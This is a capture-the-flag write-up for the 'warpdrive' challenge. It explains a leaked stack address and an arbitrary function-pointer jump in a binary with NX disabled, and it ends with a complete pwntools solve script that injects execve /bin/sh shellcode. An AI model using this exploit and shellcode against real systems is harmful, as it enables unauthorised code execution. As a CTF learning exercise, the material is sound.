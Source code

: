 # warpdrive

A simple challenge if not for the lack of source code.  
Featuring: Running shell code on the stack (NX disabled)

[source](https://github.com/azazazo/blahajctf-files/raw/main/warpdrive/warp)

### Primary look through the chal

First, we run checksec on the binary
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

NX is disabled, meaning that we can execute code from within the function memory. This will be explained later on.

Next, we put this through ghidra and get a decompilation:
```c
undefined8 main(void) {
  long in_FS_OFFSET;
  code *hack_fn;
  char input [40];
  long canary;
  
  // useless stuff
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);

  // the vulnerability
  printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
  fgets(input,40,stdin);
  __isoc99_sscanf(input,&DAT_00102022,&hack_fn);
    // sscanf(input, "%p", &hack_fn);
  (*hack_fn)();

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  } 
  return 0;
}
```

Let's look through this chunk by chunk.

#### Variables
`hack_fn` is a pointer to a function which will be called later on.  
There is also a buffer (`input`) of 40 bytes available to the user. (No buffer overflow here)  
#### "useless stuff"
This initialises the canary which is used to detect a buffer overflow out of the function memory, and also intialises the buffers to stdin. This is common throughout all binaries.

#### Vulnerability
`printf` prints the _address_ of `hack_fn` by passing `&hack_fn` into "%p".  
After `fgets`-ing 40 bytes into `input`, we call sscanf, which is essentially scanf but the input comes from the first parameter instead of stdin.

(to view the value of the second parameter of sscanf, simply double click `DAT_whatever`)
![20231206_21-35-33](https://hackmd.io/_uploads/r1aH1ZRBp.png)


<br>
<details>

<summary>sscanf docs</summary>
<br>
<pre>int sscanf(const char *restrict str, const char *restrict format, ...);</pre>
The sscanf() family of functions scans input according to format as described below. This format may contain conversion specifications; the results from such conversions, if any, are stored in the locations pointed to by the pointer arguments that follow format. Each pointer argument must be of a type that is appropriate for the value returned by the corresponding conversion specification.
<br>
sscanf() These functions read their input from the string pointed to by str.

</details>
<br>

So, the program searches in `input` for a string of "0x1234" (or similar) and writes it into `hack_fn`, and then calls it on the next line.  
Finally, it checks whether or not the canary was overwritten and exits if so.

Essentially, the program allows you to jump to wherever in memory you want to go.

### But where would we want to jump?

To answer this, we shall look into the layout of the program in the stack.  
Going back to ghidra, we see in the assembly code that `hack_fn` lies at `[RBP-0x38]`, while `input` lies at `[RBP-0x30]`.  

![image](https://hackmd.io/_uploads/Bk9a7fCH6.png)

For your convenience, below is a visualisation of the stack by running `tel` in GEF just after the `fgets` call.

![20231206_22-14-54](https://hackmd.io/_uploads/B1-EGZABp.png)

NOTE: you write towards the higher address, i.e. towards RBP.  
This means that the 40 bytes of `input` lies from the line 0x10 to 0x30 (inclusive)

Recall the `printf` leak of `input`?

```c
printf("CURRENT POSITION: %p\nWARP TO:",&hack_fn);
```

From this output, we will obtain the actual location of 0x8.

### The exploit plan

Knowing all of the above, we can write our own code into `input`, and then tell the program to jump to exactly where that code lies.

1. Obtain the actual address of `input` from the first line of program output.
2. Add the offset (0x8 ???) to the payload
3. Add some shellcode for running /bin/sh to the payload
4. profit

We will write the exploit script using pwntools.

```python
from pwn import*
shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'
p = process('./warp')
```

### Step 1

Parse the output of the program and store the address into `addr`
```python
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
```

### Step 2

Add the offset to the payload.

```python
s = hex(addr)
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```

Notice that instead of adding 0x8 as the offset of the code from the leaked address, I also added the length of the payload.  
Since we also have to fit the address to jump to at the start of the buffer, the code lies later into the stack.

![image](https://hackmd.io/_uploads/rybefM0Ha.png)

screenshot for visualisation purposes.  
The shellcode starts at 0x20 while the leaked address is at 0x8 because the length of "my_addr" is 7. (8+7+1 = 16 = 0x10)


## Final solve script

```python
from pwn import*

shell = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

p = process('./warp')
#p = remote('146.190.194.110', '30001')
addr = p.recvline().decode().split()[-1][2:]
addr = int(addr, 16)
print("got address", hex(addr))

s = hex(addr) # test the length
buf = bytes(hex(addr + len(s)+1+8), 'utf-8') + b' '
buf += shell
p.sendline(buf)
p.interactive()
```
